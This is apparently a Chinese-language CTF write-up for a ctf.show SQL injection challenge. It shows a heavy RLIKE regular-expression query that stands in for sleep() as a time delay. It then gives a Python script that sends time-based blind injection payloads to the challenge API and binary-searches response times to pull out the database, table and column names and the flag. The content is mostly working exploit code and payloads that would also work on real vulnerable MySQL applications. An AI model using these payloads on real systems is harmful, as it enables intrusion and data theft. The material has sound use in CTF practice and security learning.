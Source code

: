 ```lisp
select  concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b';
 
 
这里其实就是 很多很多个a  然后 再进行 正则匹配
```

所以这里就会耗时很大 这里是类似于sleep(5) 但是在本地测试 没有那么夸张 也就是0.2s

可能是中间耗时 所以这里我们可以通过这个方式实现注入

下面是脚本 其实脚本很快了 没必要sqlmap 但是可以学会tamper的使用

```cobol
import time
 
import requests
 
 
url = "http://1eee55e7-fb80-48ce-8a22-71f2d1234f2c.challenge.ctf.show/api/"
bypass = """(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b')"""
# payload = "1) or if(ascii(substr((select database()),{0},1))>{1},{2},0)-- +"
# payload = "1) or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},{2},0)-- +"
# payload = "1) or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxc'),{0},1))>{1},{2},0)-- +"
payload = "1) or if(ascii(substr((select group_concat(id,'---',flagaac)from ctfshow_flagxc),{0},1))>{1},{2},0)-- +"
flag = ''
 
for i in range(1,100):
    high = 128
    low = 32
    mid = (high+low)//2
    while(high>low):
        payload1=payload.format(i,mid,bypass)
        # print(payload1)
        # print(payload1)
        data = {
            'ip':payload1,
            'debug':0
        }
        start_time=time.time()
        re = requests.post(url=url,data=data)
        end_time=time.time()
        subtime=end_time-start_time
        # print(subtime)
        if subtime > 0.9:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
        if(chr(mid)==" "):
            break
    flag+=chr(mid)
    print(flag)
 
 
```
